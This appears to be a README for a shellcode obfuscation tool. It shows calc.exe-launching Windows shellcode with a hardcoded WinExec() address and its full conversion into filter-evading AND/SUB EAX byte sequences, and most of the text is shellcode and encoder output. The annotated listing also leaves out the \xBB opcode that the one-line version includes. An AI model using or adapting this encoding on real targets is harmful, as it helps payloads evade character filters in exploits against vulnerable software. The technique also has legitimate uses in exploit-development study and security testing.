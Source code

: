 # subencoder  
subencoder - shellcode obfuscater  
  
Calc.exe Shellcode:  

"\x33\xc0".................................XOR EAX,EAX | Zero out EAX register<br/>
"\x50"........................................PUSH EAX | Push EAX to have null-byte padding for "calc.exe"<br/>
"\x68\x2E\x65\x78\x65"............PUSH ".exe"  <br/>
"\x68\x63\x61\x6C\x63"...........PUSH "calc" <br/>
"\x8B\xC4"................................MOV EAX,ESP | Put a pointer to the ASCII string in EAX <br/>
"\x6A\x01".................................PUSH 1 | Push uCmdShow parameter to the stack <br/>
"\x50"........................................PUSH EAX | Push the pointer to lpCmdLine to the stack <br/>
"\x85\x6a\xe9\x77"...................MOV EBX, 77e96a85 | Move the pointer to WinExec() into EBX <br/>
"\xFF\xD3"................................CALL EBX | Call WinExec()<br/>

In one line:  
\x33\xc0\x50\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x8B\xC4\x6A\x01\x50\xBB\x85\x6a\xe9\x77\xFF\xD3  

Group it int groups of 4 bytes  
33c05068  
2E657865  
6863616C  
638BC46A  
0150BB85  
6AE977FF  
D3  

Revert it and 0 pad:  
D3		    -> 000000D3  
6AE977FF  -> FF77E96A  
0150BB85  -> 8BBB5001  
638BC46A  -> 6AC48B63  
6863616C  -> 6C616368  
2E657865  -> 6578652E  
33c05068  -> 6850C033  
  
ShellCode 4 byte reversed in one line:  
000000D3FF77E96A8BBB50016AC48B636C6163686578652E6850C033  
  
Allowed Char File (2-digit hex):  
02030405060708090b0c0e0f101112131415161718191a1b1c1d1e1f202122232425262728292a2b2c2d2e303132333435363738393b3c3d3e4142434445464748494a4b4c4d4e4f505152535455565758595a5b5c5d5e5f606162636465666768696a6b6c6d6e6f707172737475767778797a7b7c7d7e7f  

Generate shellcode:  
$ ./subencoder shellcode.txt allowedchars.txt  
Address: 0x000000D3  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x74747414  
SUB EAX, 0x75757503  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50  

Address: 0xFF77E96A  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x04040404  
SUB EAX, 0x7e280428  
SUB EAX, 0x7e5c0e6a  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50  

Address: 0x8BBB5001  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x48747474  
SUB EAX, 0x0f740f74  
SUB EAX, 0x1c5c2c17  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50  
  
Address: 0x6AC48B63  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x3e0e3e3e  
SUB EAX, 0x572d365f  
Result:   
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50  

Address: 0x6C616368  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x31313131  
SUB EAX, 0x626d6b67  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50  

Address: 0x6578652E  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x2d2d2d79  
SUB EAX, 0x6d5a6d59  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50  

Address: 0x6850C033  
-------------------  
AND EAX,554E4D4A  
AND EAX,2A313235  
SUB EAX, 0x204b206f  
SUB EAX, 0x77641f5e  
Result:  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50  

$ cat output.txt  
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50  


